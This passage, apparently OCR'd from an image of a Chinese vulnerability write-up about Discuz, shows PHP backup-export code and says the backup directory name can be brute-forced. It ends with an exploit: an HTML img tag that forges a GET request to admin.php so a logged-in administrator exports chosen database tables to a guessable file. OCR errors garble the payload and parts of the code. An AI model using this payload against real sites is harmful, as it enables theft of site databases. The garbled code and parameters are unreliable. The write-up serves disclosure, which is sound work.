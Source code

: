 ```php
				$dumpfilename = sprintf($dumpfile, $volume);
			@$fp = fopen($dumpfilename, 'wb');
				@flock($fp, 2);
				if(@!fwrite($fp, $sqldump)) {
					@fclose($fp);
					cpmsg('database_export_file_invalid', '', 'error');
				} else {
					fclose($fp);
					if($_GET['usezip'] == 2) {
						$fp = fopen($dumpfilename, "r");
						$content = @fread($fp, filesize($dumpfilename));
						fclose($fp);
						$zip = new zipfile();
						$zip->addFile($content, basename($dumpfilename));//写出
						$fp = fopen(sprintf($backupfilename."-%s".'.zip', $volume), 'w');
						if(@fwrite($fp, $zip->file()) !== FALSE) {
							@unlink($dumpfilename);
						}
						echo $dumpfilename;exit();
						fclose($fp);
					}
					unset($sqldump, $zip, $content);
```

&emsp;&emsp;由于表名和文件都是已GET方式提交，目录名由一个固定的backup加上一个六位数数字组成，备份成功后可以直接进行爆破，最终形成exp如下：

```html
< img  src="http://127.o.0.1/discuz/ admin. php?action=db&operationexort I
  setup=1 &scrolltop= &anchor=&type=cus tom&cus tomtables85B%5D={表名} &method=multivol&sizel imit=2048 &extendins=O&sql compat=&usehex=1 &usezip=Oafilename=(文件名] &exportsubmi t=%CC%E1 %BD%BB22">
```


